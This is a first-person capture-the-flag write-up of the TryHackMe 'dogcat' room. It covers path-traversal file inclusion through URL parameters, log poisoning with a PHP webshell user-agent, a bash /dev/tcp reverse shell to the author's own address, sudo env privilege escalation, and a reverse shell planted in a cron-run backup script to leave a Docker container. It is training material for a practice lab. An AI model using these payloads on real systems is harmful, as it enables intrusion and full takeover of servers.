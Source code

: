 #+TITLE: [THM] dogcat writeup
#+DATE: <2022-03-26 Sat>
#+filetags: tryhackme

#+begin_comment
 Hello, this is my first writeup 
#+end_comment

* Reconnaissance
First I decided to use ~masscan~ on all of the machine ports to limit the ports
I would then run more elaborate scans. However, since that scan did not wield
any results, I went back to good old ~nmap~.
#+begin_code sh
sudo nmap -Pn <MACHINE_IP>
#+end_code
This checks only the most frequently used ports but gave us a good place to
start; two ports were open:
- 22 which belongs to ~ssh~
- 80 which signals the existence of a webserver
After that I ran
#+begin_code sh
sudo nmap -A -p22,80 <MACHINE_IP>
#+end_code
to get more information on the software these ports were running.
#+begin_quote
22: OpenSSH 7.6p1, running on a Ubuntu Machine
80: Apache 2.4.38 WebServer
#+end_quote

** Further enumeration
*** Viewing the source code
Just by checking the source code for the website through the /Inspect tool/ in
Firefox, it is easy for us to see that there are two directories called dogs and
cats, each of which holds pictures in the form of /<NO>.jpg/ where NO ranges
from 1 to 10.

*** Gobuster
Even though it is a generally good habit to use ~gobuster~ to check for any
useful accessible files, it was not the case in this room. In fact, I think that
it was due to this type of scanning that I had to terminate the vm and restart
it in order for it to respond to my /GET/ requests.

* Exploitation
We see that the website uses ~?view=dog~ to display a random picture for a dog
or a cat respectively, pointing out that we could check for [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion][Local File
Inclusion]].

After a little bit of toying around with that, realising that the string passed
needs to contain either /dog/ or /cat/ in order to be executed by the php
back-end, we try to see what files we can access:
#+begin_code php
?view=../../../../../etc/passwd%00dog

?view=dog/../../../../../etc/passwd

?view=dogs
#+end_code
The first one showed an error about the file, while the second one proved to be
_very_ interesting. The server side did not search for the /etc/passwd file but
for /etc/passwd.php. The backend adds an extension to what we pass!

That means, that instead of dog or cat the backend reads a dog.php or cat.php
respectively. It may be beneficial to access it:

Using a php wrapper we tailor the request to our needs:
#+begin_quote
?view=php://filter/convert.base64-encode/dog
#+end_quote
Getting back the code for /dog.php/ encoded in base64.
To decode it, avoiding online tools one can simply use

#+begin_code sh
echo '<paste encoded code here>' > dog.b64
base64 -d dog.b64 > dog.php
#+end_code

We do the same for /cat.php/ but it turns out that these files have no actual
meaning. They do not reveal any useful information. This changes when we get the
/index.php/. Inside it we realise that the ~.php~ extension that gets added to
our requests can be changed using the ~?ext=~ parameter!

** The passwd file
Going back to previous requests we can finally see /etc/passwd!!
#+begin_code php
?view=dog/../../../../../etc/passwd&ext=
#+end_code
Completely minimal installation; Only one user has terminal access, ~root~ and
every other account listed on passwd has ~nologin~ set as shell.

Bruteforcing root over ssh does not wield any results :(

** Checking the logs
After just a little bit of googling, we can see that the apache server holds
logs of all the requests at ~/var/log/apache2/access.log~, and it also logs the
user agent we have used for the request.

We can see now how to proceed, manually set the agent to a webshell and run all
the commands through it. Will it work?

Yup, it worked.

** Webshell
Either through ~curl~, ~burpsuite~ or ~zap~ we set the user-agent to
#+begin_code php
<?php system($_GET['cmd']) ?>
#+end_code
and modify our link so that it also has a cmd parameter, which I set to ~ls~ to
verify that it is working

** Remote shell >> Webshell
To get from the webshell to a remote shell is nothing difficult; We open a
listener in our machine ~nc -lvnp <port>~ and then use a /good enough/ command
on the cmd parameter

I went with this one ( after checking with ~whereis bash~ )
#+begin_code sh
bash -c "bash -i >& /dev/tcp/<MYIP>/<MYPORT> 0>&1"
#+end_code

/Hint/: Do not forget to encode it as url[fn:2]

* Privilege escalation
Now the difficult part is over; two of the flags are within our reach without
even trying to gain root privileges... but what if...!

Naturally the first step was to check for sudo privileges ~sudo -l~
It lets us run ~env~ without a password, which means, pretty much that we can do
anything we want as root on the machine.
#+begin_code sh
sudo env bash
#+end_code

The third flag is in the ~/root~ directory

* Where do we go from here
I started digging around the system, hoping I could find something useful to see
where to go from there. I ran ~ls -al~ on ~/~ and discovered a ~.dockerenv~. It
seems we're inside a Docker environment!

(Well obviously, it is in the room description... Except if you forgot to read
it thoroughly)

Next stop was to check whether ~crontab -l~ had something to show... No luck there

Not long after I realised that the ~/opt~ directory was nearly empty ( In
hindsight I think it may have had been wise to check for ~du~ at that point ),
and inside it was an interesting ~backup.sh~ file.

I added a reverse shell there, opened a listener on my machine, just in case it
was scheduled to run every now and then and kept digging. Lucky me[fn:1] after a
little time I saw that my netcat listener was now a root shell outside of the
docker environment!!

Getting the flag from there was extremely easy.
* Summary
Even though I had met and toyed around with LFI before, it was the first time I
had to use it in a CTF room and proved to be quite interesting to me, relying on
[[https://github.com/swisskyrepo/PayloadsAllTheThings][PayloadsAllTheThings]] to get some information on techniques and places to start

Also, it was interesting to see the docker aspect of the room, which I could not
understand even hours after completing the room ( it seemed way too simple )

* Footnotes
[fn:2] Obviously one can always perform this step using many other techniques.
This one just feels more natural to me.

[fn:1] After finishing this article, I decided to check the writeups suggested
in thm, to see if anyone had a better explanation one more logical than my
/hunch/. It was impressively simple: The backup directory that existed in
~/opt/backups~ was significantly /newer/ than the shell script, meaning that the
machine was backed up regularly
